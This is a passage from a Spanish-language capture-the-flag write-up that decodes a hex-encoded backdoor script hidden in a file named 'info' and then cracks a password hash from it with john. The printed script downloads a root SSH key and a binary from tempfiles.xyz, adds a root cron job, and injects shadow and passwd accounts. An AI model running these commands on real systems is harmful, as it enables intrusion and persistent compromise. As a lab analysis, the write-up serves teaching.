 Si usamos el comando ```strings``` para listar las cadenas de caracteres imprimibles del archivo ```info```, veremos data en hexadecimal, a la cual le podemos aplicar un ```xxd -ps -r``` para ver como estaba antes.

```
$ strings info | grep -A 1 "/bin/bash" | grep -v "bash" | xxd -ps -r
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys; wget tempfiles.xyz/.main -O /var/lib/.main; chmod 755 /var/lib/.main; echo "* 3 * * * root /var/lib/.main" >> /etc/crontab; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd; awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd; while read -r user group home shell _; do echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd; done < users.txt; rm users.txt;
```

Sí ordenamos la data nos quedaría así

```bash
wget tempfiles.xyz/authorized_keys -O /root/.ssh/authorized_keys

wget tempfiles.xyz/.main -O /var/lib/.main

chmod 755 /var/lib/.main

echo "* 3 * * * root /var/lib/.main" >> /etc/crontab

awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1"1:\$6\$zS7ykHfFMg3aYht4\$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7::: >> /etc/shadow")}' /etc/passwd

awk -F":" '$7 == "/bin/bash" && $3 >= 1000 {system("echo "$1" "$3" "$6" "$7" > users.txt")}' /etc/passwd

while read -r user group home shell _; do
  echo "$user"1":x:$group:$group:,,,:$home:$shell" >> /etc/passwd
done < users.txt

rm users.txt
```

Si analizamos estos comandos, vemos que hay un hash el cual puede llegar a ser la contraseña de ```steven```, vamos a intentar ```crackearlo``` mediante un ataque de fuerza bruta con ```john```.

```
$ echo "$6$zS7ykHfFMg3aYht4$1IUrhZanRuDZhf1oIdnoOvXoolKmlwbkegBXk.VtGg78eL7WBM6OrNtGbZxKBtPu8Ufm9hM0R/BLdACoQ0T9n/:18813:0:99999:7:::" > hash
$ john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ihatehackers     (?)
1g 0:00:00:10 DONE (2022-12-13 20:25) 0.09380g/s 8357p/s 8357c/s 8357C/s littlebrat..halo03
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
